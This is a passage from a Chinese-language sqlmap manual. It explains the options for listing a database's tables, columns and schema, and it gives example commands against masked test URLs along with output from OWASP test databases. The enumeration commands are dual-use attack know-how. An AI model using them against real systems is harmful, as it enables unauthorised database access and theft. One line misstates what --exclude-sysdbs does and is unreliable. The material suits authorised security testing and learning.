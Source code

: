 如果你不提供-D参数来列指定的一个数据的时候，sqlmap会列出数据库所有库的所有表。

–exclude-sysdbs参数是指包含了所有的系统数据库。

需要注意的是在Oracle中你需要提供的是TABLESPACE_NAME而不是数据库名称。

**列举数据库表中的字段**

参数：`–columns,-C,-T,-D`

当前用户有权限读取包含所有数据库表信息的表中的时候，即可列出指定数据库表中的字段，同时也会列出字段的数据类型。

如果没有使用-D参数指定数据库时，默认会使用当前数据库。

```
$ python sqlmap.py -u "http://*******/sqlmap/sqlite/get_int.php?id=1" --columns -D testdb -T users -C name
[...]
Database: SQLite_masterdb
Table: users
[3 columns]
+---------+---------+
| Column  | Type|
+---------+---------+
| id  | INTEGER |
| name| TEXT|
| surname | TEXT|
+---------+---------+
```

**列举数据库系统的架构**

参数：`–schema,–exclude-sysdbs`

用户可以用此参数获取数据库的架构，包含所有的数据库，表和字段，以及各自的类型。

加上`–exclude-sysdbs`参数，将不会获取数据库自带的系统库内容。

MySQL例子：

```
$ python sqlmap.py -u "http://*******/sqlmap/mysql/get_int.php?id=1" --schema --batch --exclude-sysdbs
[...]
Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column  | Type|
+-------------+---------+
| cid | int(11) |
| mysignature | text|
| password| text|
| username| text|
+-------------+---------+

Database: owasp10
Table: blogs_table
[4 columns]
+--------------+----------+
| Column   | Type |
+--------------+----------+
| date | datetime |
| blogger_name | text |
| cid  | int(11)  |
| comment  | text |
+--------------+----------+

Database: owasp10
Table: hitlog
```